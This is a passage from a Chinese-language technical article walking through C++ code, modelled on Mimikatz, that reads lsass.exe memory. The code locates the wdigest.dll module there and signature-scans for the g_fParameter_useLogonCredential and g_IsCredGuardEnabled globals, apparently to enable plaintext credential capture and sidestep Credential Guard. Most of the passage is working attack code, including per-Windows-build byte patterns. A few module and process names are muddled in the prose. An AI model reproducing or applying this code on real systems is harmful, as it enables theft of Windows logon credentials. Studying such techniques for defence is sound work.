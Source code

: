 ```c++
			}
		}
	}
	return status;
}
```

在 `GetVeryBasicModuleInformations()` 内部，首先调用 `GetProcessPeb()` 函数检索有关 lsass.exe 进程的 PEB 结构信息，并通过 `ReadProcessMemory()` 函数将 `Peb.Ldr` 指向的 `PEB_LDR_DATA` 结构复制到 `LdrData` 中。

然后遍历所有 `LDR_DATA_TABLE_ENTRY` 结构，分别获取模块地址、映像文件大小和映像文件名称，并把它们保存到 `moduleInformation` 中，这是了一个 `PROCESS_VERY_BASIC_MODULE_INFORMATION` 结构体，其定义如下，用于存储 wdigest.dll 模块的有关信息。

```c++
typedef struct PROCESS_VERY_BASIC_MODULE_INFORMATION {
	KULL_M_MEMORY_ADDRESS DllBase;                  // 存储已加载模块的地址
	ULONG SizeOfImage;                              // 存储已加载模块的映像大小
	ULONG TimeDateStamp;
	PCUNICODE_STRING NameDontUseOutsideCallback;    // 存储已加载模块的映像名称
} PROCESS_VERY_BASIC_MODULE_INFORMATION, *PKULL_M_PROCESS_VERY_BASIC_MODULE_INFORMATION;
```

最后通过 `FindModules()` 函数比较当前循环中的模块名称与 wdigest.dll 是否相等，并将模块信息保存到 `LsassPackage.Module.Informations` 中，如下所示。

```c++
BOOL FindModules(PPROCESS_VERY_BASIC_MODULE_INFORMATION pModuleInformation)
{
	if (_wcsicmp(LsassPackage.ModuleName, pModuleInformation->ModuleName->Buffer) == 0)
	{
		LsassPackage.Module.isPresent = TRUE;
		LsassPackage.Module.Informations = *pModuleInformation;
	}

	return TRUE;
}
```

至此，成功获取到 wdigest.exe 进程中加载的 lsasrv.dll 模块的信息，`GetVeryBasicModuleInformations()` 函数调用结束。接下来，将调用 `LsaSearchGeneric()` 函数来定位 `g_fParameter_useLogonCredential` 和 `g_IsCredGuardEnabled` 这两个全局变量。

### Get Two g_* Global Variables

前文中提到，在定位 `g_fParameter_useLogonCredential` 和 `g_IsCredGuardEnabled` 这两个关键的全局变量时，采用签名扫描的方法。参考 Mimikatz，可以将常见系统版本的特征码保存在一个名为 `g_References[]` 的数组中，这些特征码用于识别引用它们的指令，如下所示。

```c++
BYTE PTRN_WIN1607_SpAcceptCredentials[] = { 0x41, 0xb5, 0x01, 0x44, 0x88, 0x6d, 0x48, 0x85, 0xc0 };
BYTE PTRN_WIN1909_SpAcceptCredentials[] = { 0x41, 0xb4, 0x01, 0x44, 0x88, 0xa4, 0x24, 0xa8, 0x00, 0x00, 0x00, 0x85, 0xc0 };
BYTE PTRN_WIN2022_SpAcceptCredentials[] = { 0x41, 0xb5, 0x01, 0x85, 0xc0 };
PATCH_GENERIC g_References[] = {
	{WIN_BUILD_10_1607,	{sizeof(PTRN_WIN1607_SpAcceptCredentials),	PTRN_WIN1607_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_10_1703,	{sizeof(PTRN_WIN1909_SpAcceptCredentials),	PTRN_WIN1909_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_10_1709,	{sizeof(PTRN_WIN1909_SpAcceptCredentials),	PTRN_WIN1909_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_10_1803,	{sizeof(PTRN_WIN1909_SpAcceptCredentials),	PTRN_WIN1909_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_10_1809,	{sizeof(PTRN_WIN1909_SpAcceptCredentials),	PTRN_WIN1909_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_10_1903,	{sizeof(PTRN_WIN1909_SpAcceptCredentials),	PTRN_WIN1909_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_10_1909,	{sizeof(PTRN_WIN1909_SpAcceptCredentials),	PTRN_WIN1909_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
```